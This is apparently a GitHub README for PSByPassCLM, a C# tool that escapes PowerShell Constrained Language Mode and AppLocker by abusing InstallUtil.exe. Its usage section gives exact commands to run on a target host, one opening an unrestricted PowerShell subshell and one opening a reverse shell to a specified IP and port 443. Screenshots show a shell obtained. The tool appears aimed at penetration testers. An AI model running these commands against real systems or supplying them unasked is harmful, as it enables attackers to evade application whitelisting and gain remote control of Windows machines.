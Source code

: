 # PSByPassCLM
Bypass for PowerShell Constrained Language Mode

## Description and references 
This technique might come in handy wherever or whenever you're stuck in a low privilege PS console  
and PowerShell Version 2 engine is not available to perform a [PowerShell Downgrade Attacks](http://www.leeholmes.com/blog/2017/03/17/detecting-and-preventing-powershell-downgrade-attacks/).

What described above may happen in [modern] Windows OSes (like Windows 10, Windows Server 2016..),  
that nowdays are shipped out with AppLocker and PowerShell Version 5 (v5).

With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools.  
Imho, not beeing able to use core language functionalities (eg, load script in memory and so on..) it's a such a pain.

"PowerShell v5 detects when AppLocker Allow mode is in effect and sets the PowerShell language to Constrained Mode,  
severely limiting the attack surface on the system.  
With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools." [[Source]](https://adsecurity.org/?p=2604)
 
## Build the binary
The project is written in C#. All the source (few lines of codes though) is committed: .csproj, .sln ...  
IDE - Visual Studio 2015. You should be able to easily compile and build the binary with the default configuration Debug/X64.
You only may to fix the System.Management.Automation reference that is located in the GAC folder 
```dos
C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
```

## Usage
Well, nothing new here as we're going to use the old and well-known trick of "InstallUtil.exe" to bypass AppLocker.
Once you've compiled the binary, issue the below command on the target host.  
Besides, your binary doesn't have to be an "exe" as InstallUtil.exe parse any file type (.txt, .bin....)

This one opens a subshell in the current console
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

This one tries to open a PS reverse shell (I've bound it into the source as a life saver :-) ..)
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

## Testing
Tested on the following environment  (Windows Server 2016)
![Screenshot](img/clm01.JPG?raw=true)

![Screenshot](img/clm02.JPG?raw=true)

PS process in current console
![Screenshot](img/clm03.JPG?raw=true)

Trying to open PS reverse shell
![Screenshot](img/clm04.JPG?raw=true)

Got the shell
![Screenshot](img/clm05.JPG?raw=true)


## Useful Links
https://blogs.msdn.microsoft.com/powershell/2017/11/02/powershell-constrained-language-mode/  
https://adsecurity.org/?p=2604  
https://pentestn00b.wordpress.com/2017/03/20/simple-bypass-for-powershell-constrained-language-mode/  
https://blog.stealthbits.com/how-attackers-are-bypassing-powershell-protections/  
https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/  


## Author
This code is developed by Chris D. [@padovah4ck](https://twitter.com/padovah4ck) // [LinkedIn](https://www.linkedin.com/in/chrisdanieli/) //   
Use it at your own risk. No responsability on my side

